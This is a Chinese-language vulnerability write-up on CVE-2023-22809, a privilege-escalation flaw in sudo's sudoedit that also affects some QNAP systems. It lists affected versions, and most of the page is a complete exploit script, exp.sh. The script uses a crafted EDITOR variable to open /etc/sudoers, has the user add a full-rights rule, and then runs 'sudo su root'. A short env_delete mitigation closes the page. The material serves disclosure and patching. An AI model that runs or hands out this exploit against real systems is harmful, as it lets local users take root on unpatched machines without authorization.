 # Linux Sudo 权限提升漏洞 CVE-2023-22809

## 漏洞描述

Sudo 存在权限提升漏洞，攻击者可过特定的 payload 获取服务器 root 权限。

Sudo 中的 sudoedit 对处理用户提供的环境变量（如`SUDO_EDITOR`、`VISUAL`和`EDITOR`）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过 sudoers 策略的 " –" 参数时，拥有sudoedit 访问权限的本地攻击者可通过将任意条目附加到要处理的文件列表中，最终在目标系统上实现权限提升。该漏洞还影响部分 QNAP 操作系统：QTS、QuTS hero、QuTScloud、QVP（QVR Pro 设备）。

## 漏洞影响

```
Sudo:
1.8.0~1.9.12p1 均受影响

QTS 与 QuTS hero：
QTS < 5.0.1.2346 build 20230322
QuTS < hero h5.0.1.2348 build 20230324
```

## 漏洞复现

exp.sh：

```
#!/usr/bin/env bash
#
# Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation
# 
# Exploit Author: n3m1.sys
# CVE: CVE-2023-22809
# Date: 2023/01/21
# Vendor Homepage: https://www.sudo.ws/
# Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
# Version: 1.8.0 to 1.9.12p1
# Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9
#
# Running this exploit on a vulnerable system allows a localiattacker to gain 
# a root shell on the machine.
#
# The exploit checks if the current user has privileges to run sudoedit or 
# sudo -e on a file as root. If so it will open the sudoers file for the
# attacker to add a line to gain privileges on all the files and get a root 
# shell.

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi

EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0
```

查看本地 sudo 版本：

```
sudo -V
```

执行文件：

```
./exp.sh
```

## 修复建议

使用 sudoedit 时，将受影响的环境变量添加到 env_delete 拒绝列表中，例如：

```
Defaults!SUDOEDIT env_delete+="SUDO_EDITOR VISUAL EDITOR"
Cmnd_Alias SUDOEDIT = sudoedit /etc/custom/service.conf
user ALL=(ALL:ALL) SUDOEDIT
```

